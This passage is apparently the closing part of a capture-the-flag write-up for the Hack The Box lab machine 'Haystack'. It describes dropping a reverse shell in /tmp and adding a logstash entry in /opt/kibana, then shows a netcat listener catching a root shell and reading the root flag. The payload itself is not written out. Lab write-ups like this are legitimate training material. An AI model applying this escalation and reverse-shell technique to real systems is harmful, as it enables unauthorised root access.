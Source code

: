 <p>With this understanding let's add our reverse shell to <code>/tmp</code> and create our own <code>logstash_</code> entry in <code>/opt/kibana</code> and setup the listener locally.</p>

{% highlight shell %}
root@kali:~/Desktop/HTB/Haystack# nc -lvp 11337
Listening on [0.0.0.0] (family 2, port 11337)
Connection from 10.10.10.115 57164 received!
sh: no hay control de trabajos en este shell
sh-4.2# id
uid=0(root) gid=0(root) grupos=0(root) contexto=system_u:system_r:unconfined_service_t:s0
sh-4.2# cat /root/root.txt
3f5f72***********************
{% endhighlight %}

<p>And with that Haystask is in the books.</p>

<p>Thanks folks. Until next time.</p>